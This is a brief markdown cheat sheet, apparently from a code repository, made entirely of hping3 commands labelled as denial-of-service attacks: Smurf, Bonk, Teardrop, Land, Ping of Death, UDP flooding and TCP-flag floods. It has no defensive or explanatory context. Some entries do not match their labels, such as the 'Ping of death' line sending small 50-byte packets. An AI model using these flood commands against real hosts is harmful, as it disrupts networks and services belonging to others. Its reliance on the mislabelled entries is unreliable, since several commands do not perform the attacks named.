 # hping3
## ICMP Smurf Attack
```
hping3 -1 -a ip brodcast-ip --flood
```

## Bonk Attack
```
hping3 ip -Q
```

## Teardrop Attack
```
hping3 -1 ip -g 185
```

## Land Attack
```
hping3 -1 -a ip ip --flood
```

## Ping of death Attack
```
hping3 -1 --rand-source ip -d 50 --flood 
```

## UDP Flooding Attack
```
hping3 -2 ip -p 53 --flood
```

## Out of band Flooding Attack
```
hping3 -A ip -p 21 --flood
hping3 -P ip -p 21 --flood
hping3 -R ip -p 21 --flood
hping3 -U ip -p 21 --flood
hping3 -F ip -p 21 --flood
hping3 -SAPRUF ip -p 21 --flood
```
